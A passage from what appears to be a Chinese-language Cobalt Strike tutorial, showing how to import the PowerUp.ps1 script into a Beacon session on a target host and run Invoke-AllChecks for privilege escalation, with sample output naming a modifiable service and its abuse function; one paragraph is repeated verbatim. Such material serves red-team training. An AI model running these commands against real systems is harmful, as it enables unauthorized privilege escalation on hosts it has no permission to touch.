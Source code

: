 ![image-20240628162509105](26.Cobalt%20Strike%20%E4%BD%BF%E7%94%A8%E6%95%99%E7%A8%8B/image-20240628162509105.png)

待 Beacon Check in 后，当前用户 UAC 为高权限的会话便会上线了。

![image-20240628162512632](26.Cobalt%20Strike%20%E4%BD%BF%E7%94%A8%E6%95%99%E7%A8%8B/image-20240628162512632.png)

### PowerUp

PowerUp 所做的事是寻找可能存在弱点的地方，从而帮助提权。
利用 PowerUp 进行提权需要首先导入 ps1 文件powershell-import PowerUp.ps1，再执行powershell Invoke-AllChecks命令，使用 PowerUp 脚本可以快速的帮助我们发现系统弱点，从而实现提权的目的。
PowerUp 所做的事是寻找可能存在弱点的地方，从而帮助提权。
利用 PowerUp 进行提权需要首先导入 ps1 文件powershell-import PowerUp.ps1，再执行powershell Invoke-AllChecks命令，使用 PowerUp 脚本可以快速的帮助我们发现系统弱点，从而实现提权的目的。
其中PowerUp.ps1文件可从这里下载：
https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc
**PowerUp 的使用**
执行以下命令：将 ps1 文件上传到目标主机，并执行所有弱点检查。

```
powershell-import PowerUp.ps1
powershell invoke-allchecks
```

详细运行过程：

```
beacon> powershell-import PowerUp.ps1
[*] Tasked beacon to import: PowerUp.ps1
[+] host called home, sent: 275084 bytes
 
beacon> powershell invoke-allchecks
[*] Tasked beacon to run: invoke-allchecks
[+] host called home, sent: 313 bytes
[+] received output:
[*] Running Invoke-AllChecks
[+] Current user already has local administrative privileges!
[*] Checking for unquoted service paths...
 
[*] Checking service executable and argument permissions...
[+] received output:
ServiceName                     : AeLookupSvc
Path                            : C:\Windows\system32\svchost.exe -k netsvcs
ModifiableFile                  : C:\Windows\system32
ModifiableFilePermissions       : GenericAll
ModifiableFileIdentityReference : BUILTIN\Administrators
StartName                       : localSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AeLookupSvc'
```